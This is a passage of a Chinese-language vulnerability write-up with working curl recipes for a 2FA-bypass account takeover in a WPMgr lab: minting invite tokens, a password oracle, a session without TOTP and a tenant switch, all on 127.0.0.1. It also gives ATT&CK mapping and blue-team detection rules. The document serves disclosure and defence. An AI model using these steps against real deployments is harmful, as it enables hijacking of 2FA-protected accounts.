- **配方名**：`[搭建]-[compose 靶场]`
- **前置条件**：本机安装 Docker Engine ≥ 24 与 Docker Compose v2（`docker compose version` 可验证）；`curl` 可用；本机 18190-18196 端口空闲
- **命令块**：

```bash
# OS: Linux / macOS / WSL2（Docker Desktop 亦可）
# 权限: 需要 Docker daemon 访问权限（docker 组）
# 依赖: Docker >= 24, docker compose v2, git, python3, curl, flock(util-linux)
# 出站流量: 是（docker.io registry、ghcr.io）
# 修改目标文件系统: 是（Docker 镜像层 + lab/src/ 目录）
#   注：仅影响本机 Docker 与当前目录，不触碰任何真实目标

cd wpmgr-invite-skip-2fa/lab
./run.sh
```

- **组合逻辑**：`run.sh` 内部做了五件有依赖顺序的事（脚本 `run.sh:43-90`）：① `ensure_pin` 用 `git fetch --depth 1 origin <SHA>` + `git checkout --detach FETCH_HEAD` 拉取固定 commit，并用 `git rev-parse HEAD` 与 `PIN_COMMIT` 比对（`run.sh:50-53`），不一致直接 `fail_run "pin-mismatch"`；② `ensure_image` 用 `flock /tmp/wpmgr-lab-image.lock` 串行化镜像构建（`run.sh:32-37`），避免多实例并发构建同一 tag 冲突；③ `docker compose up -d` 带 12 次重试、每次间隔 30 秒（`run.sh:61-69`），覆盖 Postgres 冷启动 + 迁移执行的时间窗；④ 轮询 `/readyz` 最多 90 次（`run.sh:76-86`）；⑤ `trap down EXIT`（`run.sh:39`）保证无论成功失败都执行 `docker compose down -v --remove-orphans` 清理。
- **冷门点**：`flock` 串行化构建（`run.sh:32`）。这不是性能优化，而是**正确性要求**——两个实例同时 `docker build -t wpmgr-lab:v0.61.199` 会产生 tag 竞争，其中一方拿到的镜像层可能是半成品。`run.sh:27-30` 的 `docker image inspect` 短路让复跑无需重新构建。
- **风险/流量特征**：`docker.io` 拉取 `postgres:16.4-alpine`、`redis:7.4-alpine`、`dexidp/dex:v2.41.1`、`axllent/mailpit:v1.21.8`、`nginx:1.27-alpine`；镜像构建阶段从 Go module proxy 拉依赖。**所有端口映射均绑定 `127.0.0.1`**（`docker-compose.yml:19,34,52,69-70,101,116`），无对外暴露。

---

### 配方四：[攻击] 令牌铸造——不接触受害者邮箱拿到邀请令牌

- **配方名**：`[攻击]-[铸造邀请令牌]`
- **前置条件**：靶场已就绪（`GET http://127.0.0.1:18191/readyz` 返回 200）；已用攻击者账号注册并创建组织
- **命令块**：

```bash
# OS: Linux / macOS / WSL2
# 权限: 无（普通用户）
# 依赖: curl >= 7.60, python3 (仅用于解析 JSON)
# 出站流量: 否（仅 127.0.0.1）
# 修改目标文件系统: 否

# 步骤 1: 攻击者注册（自助，无需邀请）
#   写目标文件系统: 否
curl -sS -X POST http://127.0.0.1:18191/auth/register \
  -H 'Content-Type: application/json' \
  -H 'X-Wpmgr-Bootstrap-Claim: wpmgr-h05-bootstrap-claim-lab-only' \
  -d '{"email":"attacker@example.com","password":"AttackerPass12!!","name":"Attacker","tenant_name":"Attacker Org"}' \
  -c /tmp/atk.jar

# 步骤 2: 用受害者邮箱铸造邀请 —— 令牌直接在响应体里
#   出站流量: 否（127.0.0.1）
curl -sS -X POST http://127.0.0.1:18191/api/v1/members \
  -H 'Content-Type: application/json' \
  -b /tmp/atk.jar \
  -d '{"email":"victim@example.com","role":"viewer"}' | tee /tmp/invite.json

# 步骤 3: 提取 64 字符令牌
#   依赖: python3 (标准库 json)
TOKEN=$(python3 -c "import json,urllib.parse;print(urllib.parse.parse_qs(urllib.parse.urlparse(json.load(open('/tmp/invite.json'))['accept_link']).query)['token'][0])")
echo "token_len=${#TOKEN}"
```

- **组合逻辑**：`role: "viewer"`（步骤 2）是**权限最小化的关键**——攻击者不需要给自己授权角色，只需要 `PermMemberManage` 就能创建邀请，而邀请的**被邀请人角色**与攻击者的权限无关。步骤 3 的 `parse_qs` 解析的是 `service.go:137` 拼出的 `baseURL + "/accept?token=" + rawToken` 格式。

- **冷门点**：**步骤 2 是整个漏洞的枢纽**。绝大多数人会认为"要拿到邀请令牌，得能读受害者的邮箱"——这是对邀请机制的默认心理模型。这里令牌由 `members_handler.go:140` 直接返回在 JSON 响应体中，**根本不需要邮件通道**。`service.go:139-142` 的注释解释了这为什么是设计："we ALWAYS return the accept link so an admin can hand-deliver it (e.g. before SMTP is configured)"。

  另一个冷门点是 `X-Wpmgr-Bootstrap-Claim` 头（步骤 1）。它不是通用参数——它对应 `apps/api/internal/auth/bootstrap_claim.go` 的 bootstrap 声明机制，仅在特定环境变量 `WPMGR_BOOTSTRAP_CLAIM_SECRET` 配置后可用（见 `docker-compose.yml:84`）。生产环境不应存在此路径。

- **风险/流量特征**：**产生审计日志**——`service.go:127-135` 写入 `member.invited` 事件，`target_id` 为受害者邮箱，`metadata` 含 `role` 与 `invitation_id`。**这是攻击链上第一条蓝队可见的痕迹**，且它发生在攻击者自己的租户内。

---

### 配方五：[攻击] 密码预言机——用登录接口验证密码正确性

- **配方名**：`[攻击]-[密码预言机]`
- **前置条件**：靶场就绪；知道受害者邮箱；受害者已启用 2FA
- **命令块**：

```bash
# OS: Linux / macOS / WSL2
# 权限: 无
# 依赖: curl
# 出站流量: 否（127.0.0.1）
# 修改目标文件系统: 否
# 注意: 此请求会消耗受害者租户的登录限速配额

curl -sS -o /tmp/login.json -w 'HTTP %{http_code}\n' \
  -X POST http://127.0.0.1:18191/auth/login \
  -H 'Content-Type: application/json' \
  -d '{"email":"victim@example.com","password":"VictimPass12!!"}'

cat /tmp/login.json
# 期望输出: {"two_factor_required":true,"challenge":"<uuid>","factors":{"totp":true,"webauthn":false,"recovery":true}}
```

- **组合逻辑**：这个请求的意义在于**它没有返回会话**——`apps/api/internal/auth/handler.go:470` 的 `if res.User.TwoFactorEnabled` 分支返回 202 并附带 challenge。`handler.go:483-491` 定义了 202 响应体结构。**注意 `challenge` 字段是真实的 challenge ID**，它不是装饰。响应 202 且 `two_factor_required: true` ⇒ **密码正确**；响应 401 ⇒ 密码错误。

  对照组意义：这一步证明 2FA 门禁在登录路径上**确实有效**，从而排除"整个 2FA 都没生效"的平凡解释，把问题精确定位到 accept 路径。

- **冷门点**：**202 + `two_factor_required` 构成密码预言机**。这是一个在设计上被忽视的副作用——2FA 挑战的存在本身向未认证调用者泄露了密码的正确性。多数认证设计会把"密码错误"和"需要第二因子"都返回 202 以避免账号枚举，本实现返回了不同的状态码与响应体。

  另一个冷门点是 `handler.go:483-491` 的响应体里 `factors.webauthn` 是布尔值（`result.Factors.WebAuthnCount > 0`），而 `factors.totp` 也是布尔值——但 `challenge` 字段是 UUID 字符串。攻击者即使不解 challenge，仅凭 202 就能确认密码。

- **风险/流量特征**：产生认证相关日志与限速计数；**会消耗受害者的登录限速配额**（`apps/api/internal/auth/login_gate.go` 管理），可能触发受害者的账号锁定策略。

---

### 配方六：[攻击] 核心利用——无 TOTP 接受邀请并获得会话

- **配方名**：`[攻击]-[旁路签发会话]`
- **前置条件**：配方四已获得 `TOKEN`；已知受害者密码
- **命令块**：

```bash
# OS: Linux / macOS / WSL2
# 权限: 无
# 依赖: curl
# 出站流量: 否（127.0.0.1）
# 修改目标文件系统: 否（目标数据库会产生 invitations/memberships/audit_log 写入）

curl -sS -o /tmp/accept.json -w 'HTTP %{http_code}\n' \
  -X POST http://127.0.0.1:18191/api/v1/invitations/accept \
  -H 'Content-Type: application/json' \
  -d "{\"token\":\"${TOKEN}\",\"email\":\"victim@example.com\",\"password\":\"VictimPass12!!\"}" \
  -c /tmp/victim.jar

cat /tmp/accept.json
# 期望输出: {"tenant_id":"<攻击者组织ID>","scope":"org"}

# 验证: 会话 cookie 已铸造
grep wpmgr_session /tmp/victim.jar
# 期望输出: 存在 wpmgr_session 条目
```

- **组合逻辑**：请求体只含三个字段（`invitation/handler.go:80-85` 的 `acceptBody`：`token`/`email`/`name`/`password`）。**故意不传 `name`**——受害者已存在，触发 `service.go:272` 的"已存在用户"分支，走密码校验路径而非 `service.go:261-271` 的新建用户路径。**不传任何 TOTP 字段**——因为 `acceptBody` 结构体里根本没有 2FA 字段可传（对比 `/auth/2fa/totp` 的 `challengeID` + `code`）。这是**接口契约层面的缺失**，比"代码忘了检查"更根本。

  `-c /tmp/victim.jar` 是关键：curl 的 cookie jar 会保存响应的 `Set-Cookie: wpmgr_session=...`，后续请求带上它即完成会话劫持。

  **响应中不含 `two_factor_required`**——对比配方五的 202。这是判定旁路成立的唯一硬指标。

- **冷门点**：**请求体的字段集合本身就是证据**。`handler.go:80-85` 的 `acceptBody` 只有 4 个字段，而 `apps/api/internal/auth/twofa_handler.go` 的 2FA 完成端点需要 `challengeID` + `code`。**协议里没有传递第二因子的通道**，所以任何"客户端忘了加 TOTP"的分析都是错的——问题在服务端契约。

  另一个冷门点是 `service.go:219` 附近对 `inv.RevokedAt` 的处理与 `service.go:212-219` 的注释：撤销的邀请与不存在的邀请返回**完全相同**的响应。这意味着**无法通过响应差异区分"令牌有效"和"令牌无效"**，每次尝试都是盲的——这也让"先铸造再验证"成为必要策略。

- **风险/流量特征**：
  - **HTTP 200 + `Set-Cookie: wpmgr_session`** —— 这是整条攻击链中**唯一在网络层可区分的信号**：一个无前置会话 cookie 的请求返回了会话 cookie。
  - 数据库写入：`invitations.accepted_at`、`memberships` 插入行、`audit_log` 的 `share.accepted` 事件（`service.go:441-462`，`actor_id` = **受害者 userID**）。

---

### 配方七：[攻击] 确认冒充——会话即受害者

- **配方名**：`[攻击]-[会话归属确认]`
- **前置条件**：配方六成功
- **命令块**：

```bash
# OS: Linux / macOS / WSL2
# 权限: 无
# 依赖: curl
# 出站流量: 否（127.0.0.1）
# 修改目标文件系统: 否

curl -sS http://127.0.0.1:18191/auth/me -b /tmp/victim.jar
```

- **组合逻辑**：`GET /auth/me`（`auth/handler.go:173` 注册，`:609` 实现）返回当前会话对应的用户信息。判定标准有两条，**必须同时满足**：
  1. `user.email == "victim@example.com"` —— 证明会话属于受害者；
  2. `user.two_factor_enabled == true` —— 证明 2FA **仍然开启**，即这是一个"带着 2FA 的被盗会话"，而不是"受害者本来就没开 2FA"。

  第 2 条是本漏洞最有说服力的证据：它排除了"攻击者只是碰巧遇到一个没配 2FA 的账号"这一平凡解释。`handler.go:1047` 的 `TwoFactorEnabled: gen.NewOptBool(u.TwoFactorEnabled)` 确认该字段来自 `users.two_factor_enabled`。
- **冷门点**：`/auth/me` 同时是**侦察**与**证明**工具。PoC 脚本 `lab/poc.py:629-635` 正是用这一条完成验证：

  ```python
  me = takeover.request("GET", "/auth/me")
  email = as_str(user.get("email")) if isinstance(user, dict) else ""
  enabled = as_bool(user.get("two_factor_enabled")) if isinstance(user, dict) else False
  ```

  `as_bool()` 辅助函数（`poc.py:304-307`）同时处理原生布尔和 `{"Value": true}` 两种形态——后者对应 OpenAPI 生成的 optional 字段包装。
- **风险/流量特征**：`GET /auth/me` 是**低噪声**端点，通常不在高危监控规则内。审计层面：`auth/handler.go:609` 的 `me` handler 是否写审计日志需另行确认——若不写，则这一步**不留应用层痕迹**。

---

### 配方八：[攻击] 横向移动——切入受害者组织

- **配方名**：`[攻击]-[租户切换]`
- **前置条件**：配方七成功；从 `/auth/me` 的 `memberships` 取到受害者组织 ID
- **命令块**：

```bash
# OS: Linux / macOS / WSL2
# 权限: 无
# 依赖: curl, python3
# 出站流量: 否（127.0.0.1）
# 修改目标文件系统: 是（Redis 中会话的 active_tenant_id 被改写）

# 步骤 1: 从 /auth/me 提取受害者组织 ID
#   lab/poc.py:310-321 的 tenant_id() 辅助函数实现此逻辑
VICTIM_ORG=$(curl -sS http://127.0.0.1:18191/auth/me -b /tmp/victim.jar \
  | python3 -c "import json,sys;d=json.load(sys.stdin);print(d.get('active_tenant_id') or (d.get('memberships') or [{}])[0].get('tenant_id',''))")
echo "victim_org=$VICTIM_ORG"

# 步骤 2: 切换到受害者组织
curl -sS -o /tmp/act.json -w 'HTTP %{http_code}\n' \
  -X POST "http://127.0.0.1:18191/api/v1/orgs/${VICTIM_ORG}/activate" \
  -H 'Content-Type: application/json' \
  -b /tmp/victim.jar \
  -d '{}'
cat /tmp/act.json
# 期望输出: {"active_tenant_id":"<受害者组织ID>"}
```

- **组合逻辑**：**这一步不需要任何绕过**——因为会话的 userID 就是受害者的 userID，`org/handler.go:201` 的 `RoleInTenant(p.UserID, orgID)` 天然返回 true。这是整个攻击链中最能说明问题本质的一点：**攻击者不需要提权，他本来就是受害者**。他只是用了一个没走 2FA 的入口拿到这个身份。

  `org/handler.go:197-200` 的注释说明该端点还允许 site-share 类型的协作者进入，但这对本攻击无影响——受害者是组织的正式成员。

  `org/handler.go:207-208` 的 `h.sessions.SetActiveTenant(c.Request.Context(), orgID)` 会把 Redis 中的会话 `active_tenant_id` 改写，这是**唯一产生持久化副作用的一步**。

- **冷门点**：`/api/v1/orgs/{orgId}/activate` 与 `/api/v1/orgs/switch` 是**两个不同端点**，且 `org/handler.go:67` 的注释明确要求注册顺序："must be before /:orgId/activate"——否则 `switch` 会被 `/:orgId/activate` 的路径参数匹配吃掉。**很多扫描器的字典里只有 `switch`，没有 `activate`**，这就是它冷门的原因。

  另一个冷门点：`activate` 与 `switch` 的鉴权模型不同。`org/handler.go:225-238` 的 `switchOrg` 注释强调其 JOIN 强制 `m.user_id = $2`，而 `activate` 走 `RoleInTenant` + `hasActiveShare` 两条独立路径（`org/handler.go:201-205`）。
- **风险/流量特征**：会话 cookie 不变（仍是同一个 `wpmgr_session`），**仅 Redis 侧的会话内容变化**。这意味着**从 HTTP 访问日志看，这次请求与正常操作完全一致**。

---

### 配方九：[验证] 完整自动化复现（witness-only）

- **配方名**：`[验证]-[端到端复现]`
- **前置条件**：Docker 环境就绪
- **命令块**：

```bash
# OS: Linux / macOS / WSL2
# 权限: Docker daemon 访问权
# 依赖: Docker >= 24, docker compose v2, python3 >= 3.10, git, curl, flock
# 出站流量: 是（docker.io、Go module proxy、github.com）
# 修改目标文件系统: 是（Docker 镜像层、lab/src/、poc-last-run.txt）
#   注: trap down EXIT 会自动清理容器与卷

cd wpmgr-invite-skip-2fa
python3 wpmgr-invite-skip-2fa-Abraxas-Labs.py
```

- **组合逻辑**：顶层脚本 `wpmgr-invite-skip-2fa-Abraxas-Labs.py:234-238` 本身只是一个 `chdir` + `subprocess.run` 的包装器，真正的逻辑在 `lab/poc.py`。它采用 **witness-only** 设计：`lab/poc.py:245-246` 定义了两个标签常量：

  ```python
  LABEL = "WPMGR-H05-INVITE-2FA"
  WITNESS = "WPMGR-H05-SESSION-WITHOUT-2FA"
  ```

  成功时输出 `SUCCESS WPMGR-H05-INVITE-2FA invite-accept-skipped-2fa-session WPMGR-H05-SESSION-WITHOUT-2FA`（`poc.py:277-279` 的 `success()`）。

  脚本的**见证式判定**设计值得单独一提：`poc.py:624-627` 的判定逻辑同时检查"没有 2FA 挑战"和"确实拿到了会话"：

  ```python
  if two_factor_required(accepted.json) or accepted.status == 202:
      return fail("accept-challenged-2fa leftover-closed")
  if accepted.status != 200 or not takeover.has_session():
      return fail(f"accept-no-session status={accepted.status} body={snippet(accepted.body)}")
  ```

  第一条判定让脚本**同时可以验证修复**：上游修好后 accept 会返回 202 + 挑战，脚本会自动转为 FAIL 并提示 `leftover-closed`。**同一个脚本既是 PoC 也是回归检测器。**

- **冷门点**：`lab/poc.py:286-293` 的 `totp_code()` 是**纯标准库实现的 RFC 6238 TOTP**（`hmac` + `struct` + `base64`，无第三方依赖）。它复刻了 RFC 6238 的动态截断算法（`digest[offset:offset+4] & 0x7FFFFFFF`）和 30 秒时间步（`int(time.time()) // 30`）。**多数人写 PoC 会装 `pyotp`，这里刻意避免**——因为 PoC 要在最小依赖环境里跑，任何 pip 安装都可能失败或引入供应链风险。

  另一个冷门点：`lab/poc.py:373-405` 的 `mailpit_verify_token()` 与 `:408-439` 的 `river_verify_token()` 是**两条并行的令牌提取路径**。前者读 Mailpit HTTP API（`/api/v1/messages` → `/api/v1/message/{id}`），后者**直接查数据库**：

  ```python
  sql = ("SELECT args::text FROM river_job "
         "WHERE kind = 'send_email' ORDER BY id DESC LIMIT 8")
  ```

  `river_job` 是 River 任务队列的表。后者用 `docker compose exec -T postgres psql -U wpmgr -d wpmgr -tAc` 执行——**`-T` 关闭 TTY 分配，`-tAc` 是 tuples-only + unaligned + command 模式**，三个 flag 必须连用才能让输出可被正则直接解析。
- **风险/流量特征**：这是**唯一会产生大量噪声**的配方——它会注册两个账号、创建两个组织、发送邮件、写入数据库。建议仅在隔离靶场执行。

---

## 5. 攻击链位置与红蓝对照

### 5.1 MITRE ATT&CK 映射

| 阶段 | Tactic | Technique | ID | 本案对应动作 |
|---|---|---|---|---|
| 初始访问 | Credential Access | Valid Accounts: Passwords | **T1078.001** | 使用已泄露的受害者密码 |
| 资源开发 | Resource Development | Obtain Capabilities: Additional Access | **T1589.002** | 自助注册账号 + 创建组织 |
| 资源开发 | Resource Development | Acquire Infrastructure: Domains? | — | 不适用 |
| 执行 | Execution | — | — | 不适用（无代码执行） |
| 持久化 | Persistence | Account Manipulation: Additional Cloud Roles | **T1098.003** | 通过邀请向受害者邮箱授予组织成员资格 |
| 权限提升 | Privilege Escalation | Valid Accounts | **T1078** | 受害者会话获得其组织内权限 |
| 防御绕过 | Defense Evasion | Impair Defenses: Disable or Modify Tools | **T1562.001** | 绕过 2FA 会话签发门 |
| 凭证访问 | Credential Access | Steal Web Session Cookie | **T1539** | 获取 `wpmgr_session` cookie |
| 发现 | Discovery | Account Discovery: Cloud Account Dashboard | **T1538** | `GET /auth/me` 枚举受害者的组织 |
| 横向移动 | Lateral Movement | Remote Services | **T1021** | `POST /orgs/{id}/activate` 切换租户 |
| 采集/影响 | Collection / Impact | Data from Information Repositories | **T1213** | 访问受害者组织数据 |

**主链**：T1078.001 → T1098.003（通过邀请授予成员资格）→ T1562.001（绕过 2FA 门）→ T1539（获得会话 cookie）→ T1021（租户切换）。

**这条链的 ATT&CK 特征**：它不是一条需要 C2 或漏洞利用的链，而是**一条纯认证链**。ATT&CK 中对应"绕过 MFA"的最佳实践技术是 **T1556**（Modify Authentication Process），子技术 T1556.006（Multi-Factor Authentication），以及 **T1556.008**（Additional Cloud Roles）——本案更接近 T1556.006：攻击者没有修改认证流程，而是**利用了一个流程变体**（invitation accept）绕过了认证流程的主路径。

### 5.2 蓝队检测卡

#### 数据源

| # | 数据源 | 类型 | 可用性 | 备注 |
|---|---|---|---|---|
| **D1** | PostgreSQL `audit_log` 表 | 应用层审计 | **必选** | `apps/api/db/schema.sql:818-832`。动作：`member.invited`、`share.accepted`（`invitation/service.go:127-135`、`:441-462`） |
| **D2** | HTTP 反向代理访问日志（nginx/Envoy/ALB） | 网络元数据 | **必选** | `/api/v1/invitations/accept` 的请求/响应特征 |
| **D3** | Redis 会话存储 | 中间件遥测 | 强烈推荐 | `sessKeyUserID`/`sessKeyActiveTenantID`/`sessKeyAuthAt`（`auth/session.go:240-242`） |
| **D4** | WPMgr 应用日志（slog，JSON） | 应用日志 | 推荐 | `WPMGR_LOG_LEVEL`（`docker-compose.yml:80`） |
| **D5** | WPMgr 自身的 `audit_log` 读取接口 | 应用层 | 推荐 | `PermAuditRead` 权限 |

**关键约束（必须写进检测卡，否则规则会写错）**：

- ❌ **`audit_log` 没有 IP 列，没有 User-Agent 列**（`schema.sql:818-832` 确认，12 个字段中无网络来源字段）。
- ❌ **WPMgr 是 Linux 容器化 Go 服务，不产生 Windows Event ID / Sysmon ID**。任何 "Event ID 4624" 风格的规则在此**完全无效**。正确做法是对照 **PostgreSQL 查询日志** 与 **nginx access log**。
- ✅ 网络侧溯源只能靠 **D2（代理日志）**，它记录客户端 IP。

#### 检测逻辑伪代码（Sigma 风格）

**规则 1：核心检测——无前置会话的 accept 请求返回 200 + 会话 cookie**

```yaml
# 规则名: WPMgr_Invitation_Accept_Mints_Session_Without_Prior_Session
# 数据源: nginx access log (D2) + 应用审计日志 (D1)
# 逻辑:
#   1. 请求 POST /api/v1/invitations/accept
#   2. 该请求的 ClientCookie 头中【不存在】 wpmgr_session
#      （注意：不是"会话无效"，是"根本没有会话 cookie"）
#   3. 响应状态 = 200
#   4. 响应 Set-Cookie 头中出现 wpmgr_session
#   5. 该响应对应的 audit_log 中【不存在】 two_factor 挑战完成事件
#
# condition:
#   uri == "/api/v1/invitations/accept"
#   AND http.status == 200
#   AND response.headers["set-cookie"] CONTAINS "wpmgr_session="
#   AND NOT request.headers["cookie"] CONTAINS "wpmgr_session="
#
# 排除（降噪）:
#   - request.headers["x-wpmgr-invite-accept"] != ""
#     （见 invitation/handler.go:50 —— 带此头的请求代表已登录用户在用会话接受邀请）
#   - 目标部署处于 onboarding 阶段（按需）
```

**这条规则为什么可靠**：正常用户的邀请接受流程是——用户从邮件点链接 → 前端 SPA 填密码 → 提交 accept。此时用户**通常已有会话 cookie**（可能没有，但绝大多数 SaaS 用户已登录）。而攻击场景（无会话 + 密码 + 立即 200）在正常流程中几乎不出现。

**规则 2：审计关联——`share.accepted` 的 actor 是受害者，但邀请是别人发的**

```yaml
# 规则名: WPMgr_ShareAccepted_By_Invitee_But_Invited_By_Third_Party
# 数据源: audit_log (D1)
# 逻辑: 同租户内，share.accepted 事件的 actor_id 与最近一次 member.invited
#       事件的 actor_id 不同，且时间差很短
#
# condition:
#   audit.action == "share.accepted"
#   AND audit.target_type == "tenant"
#   AND NOT EXISTS (
#       SELECT 1 FROM audit_log prev
#       WHERE prev.tenant_id = audit.tenant_id
#         AND prev.action = "member.invited"
#         AND prev.target_id = <被邀请人邮箱>
#         AND prev.actor_id = audit.actor_id      # 邀请者 == 接受者
#         AND prev.created_at <= audit.created_at
#   )
#   AND audit.created_at - <最近member.invited事件时间> < INTERVAL '1 hour'
#
# 语义: 邀请是别人发的，接受却是"受害者本人"的动作 —— 这正是本漏洞的签名
```

**这条规则为什么可靠**：`invitation/service.go:441-462` 的 `recordInvitationAccepted` 把 `ActorID` 设为 **`userID`（被接受的用户，即受害者）**，而 `service.go:127-135` 的 `CreateOrgInvitation` 把 `ActorID` 设为 **`actorID`（邀请者，即攻击者）**。**两条审计记录的 actor_id 必然不同**——这是应用层唯一能看见的、指向攻击的信号。

**规则 3：租户切换异常——首次出现即切换到从未交互过的组织**

```yaml
# 规则名: WPMgr_TenantSwitch_Immediately_After_InvitationAccept
# 数据源: Redis 会话遥测 (D3) + nginx 访问日志 (D2)
# 逻辑: 同一 session token 在 T+300s 内，先 accept 邀请、后 activate 到
#       一个该 session 从未作为 active_tenant 出现过的组织
#
# condition:
#   redis.session_key == "active_tenant_id"
#   AND prior_session_states[session_id].active_tenant_id != current_value
#   AND session.created_at < current_time - INTERVAL '300 seconds'
#   AND http_recent_path(session_id) CONTAINS "/api/v1/invitations/accept"
```

**规则 4：Redis 会话层——`auth_at` 与 2FA 完成时间的关系**

```yaml
# 规则名: WPMgr_Session_AuthAt_Without_Prior_Challenge
# 数据源: Redis 会话存储 (D3)
# 逻辑: 会话中同时存在 auth_at 与 user_id，但该 user_id 在最近 15 分钟内
#       【没有】任何 two_factor_challenges 表的完成记录
#
# condition:
#   EXISTS session_key "auth_at"
#   AND EXISTS session_key "user_id"
#   AND NOT EXISTS (
#       SELECT 1 FROM two_factor_challenges c
#       WHERE c.user_id = session.user_id
#         AND c.used_at IS NOT NULL
#         AND c.used_at > session.auth_at - INTERVAL '15 minutes'
#   )
#
# 注意: 此规则需要两表关联，仅在可访问 DB + Redis 时可用
```

**规则 5：PostgreSQL 原生审计（绕过应用层，最难被篡改）**

```yaml
# 规则名: Postgres_Log_Raw_Query_Contains_InviteAccept_Without_Challenge
# 数据源: PostgreSQL log_statement (D1 补充)
# 逻辑: 抓取直接命中 invitations 表 accepted_at 更新的语句
#
# condition:
#   db_query CONTAINS "UPDATE invitations"
#   AND db_query CONTAINS "accepted_at"
#   AND NOT EXISTS (
#       SELECT 1 FROM two_factor_challenges
#       WHERE used_at BETWEEN <update_time> - INTERVAL '30 seconds' AND <update_time>
#   )
#
# 价值: audit_log 有 hash 链防篡改，但攻击者若能改应用日志，
#       PostgreSQL 侧的语句日志是独立证据源
```

#### 已知绕过

1. **代理日志缺失或被清洗。** 规则 1、3 完全依赖 D2。若部署方未配置 nginx access log、或日志保留期 < 30 天、或走了 CDN 而未回源记录，则规则 1 完全失效。**必须验证 D2 存在且有保留策略**，否则检测卡形同虚设。

2. **攻击者复用已有会话。** 若攻击者先以受害者身份正常登录（走 `/auth/login` 并完成 2FA），再接受邀请，则请求带有合法的 `wpmgr_session` cookie，规则 1 的 `NOT request.headers["cookie"] CONTAINS "wpmgr_session="` 条件不成立，**规则 1 漏检**。此时只剩规则 2、3、4 可用。**这正是需要规则 2 的原因——不能只靠网络特征。**

3. **角色混淆。** 规则 2 依赖 `member.invited` 事件的 `actor_id` 与 `share.accepted` 的 `actor_id` 不同。但**如果攻击者用受害者自己的会话去接受自己发的邀请**（如社工诱导受害者点击），两者相同，规则 2 漏检。**规则 2 只对"攻击者自建组织邀请受害者"的场景有效。**

4. **`audit_log` 的 `actor_id` 可被伪造吗？** 从 `invitation/service.go:441-462` 看，`ActorID` 取自 `userID` 参数，由服务端从数据库解析得出，**不是客户端可控的**。所以规则 2 语义成立。**但如果攻击者通过其他路径获得会话**（如 XSS 盗取 cookie），actor_id 同样会指向受害者，规则 2 仍能命中——这是它的价值。

5. **时间窗调整即可绕过规则 2。** 攻击者可以在创建邀请后**延迟数小时**再接受（邀请有效期 7 天，`service.go:115` 的 `Add(7 * 24 * time.Hour)`）。把规则 2 的 `1 hour` 窗口放宽到 `7 days` 可覆盖，但会显著增加误报（见下）。

#### 误报场景

1. **同一用户多设备/多标签页。** 用户在设备 A 登录（已有会话），在设备 B 收到邀请并接受，设备 B 无会话 cookie → 规则 1 命中，但这是**完全合法**的行为。**误报率高**。缓解：叠加"该 accept 请求的 email 是否属于请求来源 IP 的常用账号"、或"该用户在近 7 天有 /auth/login 成功记录"。

2. **首次使用即接受邀请的全新用户。** 新员工收到入职邀请，首次登录就接受 → 无前置会话 + 200 + Set-Cookie → 规则 1 命中。**这是最典型的误报源**。缓解：若 `audit_log` 中该邮箱对应的 `share.accepted` 之前有 `member.invited`，且 `metadata.role` 是 `viewer`，可降级为 info。

3. **规则 2 的时间窗误报。** 管理员邀请用户后，用户**几天后**才接受邀请 → 若规则 2 的窗口是 7 天，会命中大量正常场景。**建议窗口设为 1 小时**，并接受一定漏检。

4. **规则 4 的时间偏移误报。** `auth_at` 与 `two_factor_challenges.used_at` 的比较依赖时钟一致性。容器时区配置错误或数据库与应用服务器时钟漂移会导致误判。**部署前必须确认 NTP 同步**。

5. **`share.accepted` 事件在 site/client scope 下的变体。** `service.go:454-459` 表明 `inv.Scope` 为 `site` 或 `client` 时，`Action` 变为 `client_member.accepted`、`TargetType` 变为 `site`/`client`。规则 2 的 `target_type == "tenant"` 过滤条件已排除这些变体——**规则编写时必须带上这个过滤，否则会漏掉 org scope 的匹配**（写反了）。

### 5.3 一次成功的攻击在日志里长什么样

**这是本节最重要的一部分。** 应用层审计日志记录的内容（基于 `invitation/service.go:127-135` 与 `:441-462`）：

```
[租户: 攻击者组织]
audit_log:
  action="member.invited"  actor_type="user"  actor_id=<攻击者userID>
     target_type="user"  target_id="victim@example.com"
     metadata={"role":"viewer","invitation_id":"<uuid>"}

[租户: 攻击者组织]
audit_log:
  action="share.accepted"  actor_type="user"  actor_id=<受害者userID>    ← 看起来像受害者自己做的
     target_type="tenant"  target_id=<攻击者组织ID>
     metadata={"invitation_id":"<uuid>","role":"viewer"}
```

**注意第二行的 `actor_id` 是受害者。** 从审计日志看，这是"受害者接受了一个邀请"——完全合法的事件。**日志看起来是干净的。**

这就是为什么本漏洞的蓝队检测必须依赖**跨事件的关联分析**（规则 2）而非单一事件匹配：单看任何一行都看不出攻击，只有把"谁发的邀请"和"谁接受的"放在一起对比，才能发现这两个人不是同一个。

---

## 6. 实网落地约束与对比

### 6.1 最小可行部署

**约束**：仅出站 443、无外网访问、有 EDR、无生产数据。

**方案：纯本地 loopback 靶场 + 离线取证。**

```yaml
# 部署拓扑（全部 127.0.0.1 绑定）
#   web(nginx)      127.0.0.1:18190
#   api(wpmgr)      127.0.0.1:18191
#   postgres        127.0.0.1:18192
#   redis           127.0.0.1:18193
#   dex(oidc)       127.0.0.1:18194
#   mailpit         127.0.0.1:18195/18196
```

| 约束项 | 满足方式 | 验证命令 |
|---|---|---|
| 仅出站 443 | 镜像拉取走 registry 443；源码 clone 走 GitHub 443；**靶场运行期零出站** | `docker compose ps` 全为 `127.0.0.1:PORT` 绑定 |
| 无外网 | 所有服务在 compose 网络内；`WPMGR_PUBLIC_BASE_URL` 指向 `127.0.0.1:18191` | `docker-compose.yml:82` |
| 有 EDR | **EDR 在此场景无用武之地**——本攻击无文件落地、无子进程、无系统调用异常 | 见下 |
| 无生产数据 | 合成账号：`owner@example.com` / `victim@example.com`（`lab/poc.py:252-255`） | — |

**关于 EDR 的诚实评估**：本攻击链在 OS 层的全部活动是——Go runtime 创建 goroutine（`clone(2)`）、TCP 收发（`sendto(2)`/`recvfrom(2)`）、`epoll_wait(2)`。**没有文件写入、没有进程创建、没有内存注入、没有提权。** 任何 EDR——无论 CrowdStrike、Defender for Endpoint、还是 osquery——都不会产生告警。

**这不是 EDR 的缺陷，而是本攻击的性质决定的。** 它属于"应用层逻辑缺陷"，检测责任完全落在：① HTTP 访问日志；② 应用审计日志；③ 数据库语句日志。

**离线取证方案（零容器，零出站，仅需 git）**：如果连 Docker 都不允许，用配方一 + 配方二即可完成**静态确认**——`grep` 出 `service.go:322` 的旁路，比运行任何 PoC 更有说服力，因为它给出的是根因而非症状。

**新增检测能力的最小改动**（可选，不影响复现）：

```sql
-- 为 audit_log 增加网络溯源列（需配套修改 audit.Event 结构体）
